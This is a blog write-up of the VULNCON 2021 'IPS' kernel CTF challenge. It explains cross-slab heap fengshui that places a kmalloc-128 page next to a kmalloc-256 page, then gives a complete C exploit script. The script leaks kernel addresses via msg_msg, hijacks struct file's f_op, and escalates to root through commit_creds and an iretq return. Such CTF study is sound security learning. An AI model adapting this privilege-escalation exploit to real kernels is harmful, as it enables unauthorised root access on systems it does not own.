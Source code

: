 ```yaml
---
title: "Learn Kernel Heap Cross Slab Attack (Overflow Current Page) from a CTF challenge: IPS(VULNCON 2021)"
date: 2024-02-29 20:42:29
tags: 
layout: default
---
```


# 0xFF tl;dr

I learned this skill from this [article][1]. This article is shitty since I wrote three write-ups for the same challenge. I just document what's new so it's not for other readers. I recommend you to read Kyle's original [post][1]. Thanks @Kyle for the write-up!

# 0x00 Challenge

The attachment is available [here][5].

I analyzed the challenge and introduced related skills in this [article][2]. In that article, I used `msg_msg` to walk through different slabs and leak the target slab address then use arbitrary free to over write the function pointers. However, that method is kind of verbose. If we know some kernel heap fengshui, things gonna be much easier.

# 0x01 Exploitation


In this challenge we have UAF for kmalloc-128 and want to attack the objects on another slab, for example kmalloc-256. If we have a kmalloc-256 page just after kmalloc-128 page, we can free a fake chunk at the end of kmalloc-128 page and overwrite the first object on kmalloc-256, which is a very juicy pattern for exploitation. However, how can we make it happen? 

There are more comprehensive analysis of page level fengshui in this [article][3]. But to make life easier, I only introduce the facts we need in this challenge.

- When we run out of objects of curren slab, slab will use budysystem to allocate new pages
- When we run out of pages for one specific order, budysystem gonna borrow connected pages from higher order and split them to lower order.


Based on the two facts listed, we can do following steps to create such a patter that a kmalloc-128 page is next to a kmalloc-256 page.

- Drain 0x80 slab so slab allocator has to borrow from budysystem and budyststem has to borrow from higher order
- Allocte the vulnerable 0x80 object.
- Likly, the next page (of the page where vulnerable obejct locates) is still in budystsystem
- Drain 0x100 slab to get the next page.
- Arbitrary Free the fake chunk at the end of the page before the vulnerable page
- Refill and overflow


# 0x02 Leak & Attack

If we want to make leaking and attacking easier, we'd better select some obejcts including a pointer points to the same page where it is and some kernel text pointers so we can leak kernel text. Moreover, it should also include function pointers or a pointer to function pointer table so we can hijack RIP. 

Considering the requirements above, `struct file` is a good candidate.

We can leak kernel.text and current page's addresses if we can leak its content. Also, we can ovewrite the `fop` pointer to hijack RIP. 


# 0x03 Exploitation Script

```python
// https://github.com/n132/libx/tree/main
#include "libx.h"
#if defined(LIBX)
    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
    }
    size_t back2root = shell;
    void back2userImp(){
        __asm__("mov rax, user_ss;"
            "push rax;"
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
            "swapgs;"
            "push 0;"
            "popfq;"
            "iretq;"
            );
    }
    void libxInit(){
        back2user = back2userImp;
        hook_segfault();
        saveStatus();
    }
#endif // 
#define ISP 548
typedef struct {
  int idx;
  unsigned short priority;
  char *data;} dt;
void add(char *buf, int priority){
    dt dt;
    dt.priority = priority;
    dt.data = buf;
    return syscall(ISP,1,&dt);
}
void del(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,2,&dt);
}
void edit(int idx, char *buf){
    dt dt;
    dt.idx = idx;
    dt.data = buf;
    return syscall(ISP,3,&dt);

}
void copy(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,4,&dt);
}
int main()
{   
    libxInit();
    // Drain 0x80
    msgSpray(0x50,0x10000/0x80,"Spray");
    add("0",0);
    // Drain 0x100
    int fds[0x200] = {0};
    for(int i = 0 ; i< 0x200 ; i++)
        fds[i] = open("/etc/passwd",0);
    
    for(int i = 1 ; i< 0x10; i++)
        add(str(i),i);
    copy(0);
    int msgid = msgGet();
    del(0);
    //Refill
    msgSend(msgid,"A",0x50);
    edit(-1,dpn('\xff',14,18));
    int msgid2 = msgGet();
    msgMsg* msg = msgRecv(msgid,0x1000);
    msgSend(msgid2,"B",0x50); // refill
    size_t * ptr  = msg->mtext;
    size_t faker = 0;
    size_t kernel = 0;
    for(int i = 3 ; i < 0x200-1 ; i++){
        // info(ptr[i]);

        if(0x000a801d00008000 == ptr[i]){
            kernel = ptr[i-3];
            faker = ptr[i+3] - 0x58-0x50;
            break;
        }        
    }
    if(!kernel || !faker)
        panic("Failed to Leak");
    info(kernel);
    info(faker);
    edit(-1,strcat(dpn('\xff',18,18+8),p64(faker)));
    msgid =  msgGet();
    
    size_t * fake_op = 0xdeadbeef000;
    char *pay = strcat(dpn('\xff',0xfd0+0x70,0xfd0+0x78),p64(fake_op+0x10));


    msgRecv(msgid2,1);
    msgSend(msgid,pay,0xfd0+0x78);
    
    mmapx(fake_op,0x1000);

    commit_creds = kernel - (0xffffffff82029500 - 0xffffffff8108a830);
    prepare_kernel_cred = kernel - ( 0xffffffff82029500 - 0xffffffff8108aad0);
    for(int i = 0 ; i < 0x200;i++)
        fake_op[i] = getRootPrivilige;

    debug();
    for(int i = 0 ; i<0x200; i ++)
        close(fds[i]);
}
```

# 0x04 Epilogue

Learned a new technique for kernel heap. 

Btw, struct file is so good. 
Cross Page Overwrite is also amazing!
Not sure if this heap fengshui skill is generic. I'll update if I got the answer.


[1]: https://blog.kylebot.net/2022/01/10/VULNCON-2021-IPS/#Exploitation
[2]: https://n132.github.io/2024/02/09/IPS.html
[3]: https://etenal.me/archives/1825
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips